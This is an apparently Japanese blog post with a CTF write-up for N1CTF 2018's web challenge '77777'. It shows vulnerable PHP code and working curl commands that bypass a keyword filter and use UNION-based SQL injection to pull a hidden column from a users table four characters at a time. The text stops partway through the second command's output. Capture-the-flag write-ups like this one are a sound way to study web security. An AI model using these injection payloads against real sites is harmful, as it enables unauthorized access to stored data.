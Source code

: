 ```yaml
---
layout: post
title: N1CTF 2018 の write-up
categories: [ctf]
date: 2018-03-26 16:40:00 +0900
---
```


チーム Harekaze で [N1CTF 2018](http://n1ctf.xctf.org.cn/) に参加しました。最終的にチームで 1158 点を獲得し、順位は得点 517 チーム中 45 位でした。うち、私は 3 問を解いて 728 点を入れました。

以下、解いた問題の write-up です。

## [Web 104] 77777

> "77777" is my girlfriend's nickname，have fun xdd:)
> hk node: http://47.75.14.48
> cn node: http://47.97.168.223
> (Two challenge servers are identical, use either of them.)

与えられた URL にアクセスすると、以下のようにソースコードの一部と環境の情報が得られました。

```php
<?php
function update_point($p,$points){
    global $link;
    $q = sprintf("UPDATE users SET points=%d%s",
        $p,waf($points));
    return TRUE;
}
if (!update_point($_POST['flag'],$_POST['hi']))
    echo 'sorry';
```

```
$ apt-get install php7.0
$ PHP Version 7.0.22-0ubuntu0.16.04.1
$ apt-get install mysql-server
$ apt-get install mysql-client
$ apt-get install php7.0-mysql
$ apt-get install libapache2-mod-php
```

`update_point` で SQLi ができそうですが、`waf` という関数が気になります。いろいろ試していると、これによって `in` のような文字列が含まれた場合に弾かれることが分かりました。

`points` 以外のカラム名を調べようにも、`in` が禁止されているので `information_schema.columns` を参照することができません。が、[Advent Calendar CTF 2014 の otp](2014-12-26-adctf.html#21-日目-otp-web) のように `union` を使うことで、カラム名を知らずとも `users` のレコードを読み出すことができそうです。

`conv` と `substr` で 4 文字ずつパスワードを抜き出すと、フラグが得られました。

```
$ curl -g "http://47.75.14.48/" -d "flag=hogefuga&hi=-(conv(hex((select substr(group_concat(c), 1, 4) from (select 1 a, 2 b, 3 c, 4 d union select * from users) x)), 16, 10))" 2>/dev/null | grep -1 Points

                                          <h4><i class="icon-trophy"></i> My Points</h4>
                                        <p class="sm">
                                                <grey>My Points</grey> | -858548325<br/>
                                                <grey>Designer of the Year</grey> | 2018.<br/>
$ curl -g "http://47.75.14.48/" -d "flag=hogefuga&hi=-(conv(hex((select substr(group_concat(c), 5, 4) from (select 1 a, 2 b, 3 c, 4 d union select * from users) x)), 16, 10))" 2>/dev/null | grep -1 Points

                                          <h4><i class="icon-trophy"></i> My Points</h4>
                                        <p class="sm">
```